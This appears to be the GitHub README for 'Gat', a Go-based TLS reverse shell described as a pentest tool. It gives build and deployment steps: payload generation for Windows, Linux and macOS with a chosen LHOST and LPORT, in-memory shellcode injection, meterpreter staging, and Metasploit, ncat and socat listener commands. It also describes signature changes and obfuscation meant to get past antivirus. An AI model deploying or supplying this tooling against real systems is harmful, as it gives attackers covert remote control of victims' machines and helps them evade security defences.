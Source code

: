 # Gat
Golang Access Tool

Simple TCP reverse shell written in [Go](https://golang.org).
It uses TLS to secure the communications, and provide a certificate public key fingerprint pinning feature, preventing from traffic interception.

###Note: I dont take credit for the majority of this code. This is a combination of two tools i use often in pentest with slight tweaks to change signatures and a script to automate the deployment of said tools.

Supported OS are:

- Windows
- Linux
- Mac OS
- FreeBSD and derivatives

## Getting started & dependencies

Since this is a Go project, you will need to follow the [official documentation](https://golang.org/doc/install) to set up
your Golang environment.\
(with the `$GOPATH` environment variable).\
Pre-requsite\

```
go install mvdan.cc/garble@latest
```


```
git clone https://github.com/m1ddl3w4r3/Gat.git
cd Gat
go mod init Gat/Gat
go mod tidy
cd utils/
go build Mangle.go
```
## Usage
Gat will use 'MSF's Multi Handler' by default.(If listener selected)\
Other options are available such as:

*socat\
*ncat

These shells can be upgraded to meterpreter shells using the 'meterpreter' command in Gat.

##Gat.sh to make things easy.
***WARNING*** Change CN in make file to accurately reflect you Orgs Certificate or Hostname of HTTPS server.
```
./Gat.sh - Will show example and ascii art.
./Gat.sh [ Windows|Mac|Linux ] <LHOST> <LPORT> - Will generate given OS type payload.
./Gat.sh Cleanup - Will cleanup past deployments.
```

This custom interactive shell will allow you to execute system commands through `cmd.exe` on Windows, or `/bin/sh` on UNIX machines.

The following special commands are supported:

* ``run_shell`` : drops you an system shell (allowing you, for example, to change directories)
* ``inject <base64 shellcode>`` : injects a shellcode (base64 encoded) in the same process memory, and executes it
* ``meterpreter [tcp|http|https] IP:PORT`` : connects to a multi/handler to get a stage2 reverse tcp, http or https meterpreter agent from metasploit, and execute the shellcode in memory (Windows only at the moment)
* ``exit`` : exit gracefully


## Examples

### Basic usage



## Meterpreter staging
**WARNING**: this currently only work for the Windows platform.

The meterpreter staging currently supports the following payloads :

* `windows/x64/meterpreter/reverse_tcp`
* `windows/x64/meterpreter/reverse_http`
* `windows/x64/meterpreter/reverse_https`

To use the correct one, just specify the transport you want to use (tcp, http, https)
To use the meterpreter staging feature, just start your handler:

```bash
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 127.0.0.1
set lport 8443
set HandlerSSLCert ./server.pem
exploit -j
```

Then, in `Gat`, use the `meterpreter` command:

```bash
[Gat]> meterpreter https 127.0.0.1:8443
```
A new meterpreter session should pop in `msfconsole`:

Here is an example with `ncat`:

```
ncat --ssl --ssl-cert server.pem --ssl-key server.key -lvp 1234
```

'socat' example (tested with version `1.7.3.2`):
```
socat `tty` OPENSSL-LISTEN:1234,reuseaddr,cert=server.pem,key=server.key,verify=0
```

## Manually create GAT for more custom setup.
***WARNING*** Generating this way will not apply mangle to the payload and could be caught by AV. \
(Make sure to obfuscate it if you do this.)

You will need to generate a valid certificate:
```bash
$ make depends
openssl req -subj '/CN=yourcn.com/O=YourOrg/C=FR' -new -newkey rsa:4096 -days 3650 -nodes -x509 -keyout server.key -out server.pem
Generating a 4096 bit RSA private key
....................................................................................++
.....++
writing new private key to 'server.key'
-----
cat server.key >> server.pem
```

For windows:

```bash
# Predifined 32 bit target
$ make windows32 LHOST=192.168.0.12 LPORT=1234
# Predifined 64 bit target
$ make windows64 LHOST=192.168.0.12 LPORT=1234
```

For Linux:
```bash
# Predifined 32 bit target
$ make linux32 LHOST=192.168.0.12 LPORT=1234
# Predifined 64 bit target
$ make linux64 LHOST=192.168.0.12 LPORT=1234
```

For Mac OS X
```bash
# Predifined 32 bit target
$ make macos32 LHOST=192.168.0.12 LPORT=1234
# Predifined 64 bit target
$ make macos64 LHOST=192.168.0.12 LPORT=1234
```

## Credits
Ronan Kervella `<r.kervella -at- sysdream -dot- com>` - For his [Hershell](https://github.com/lesnuages.hershell) repo.\
@Tyl0us - For his awesome work on [Mangle](https://github.com/optiv/mangle).
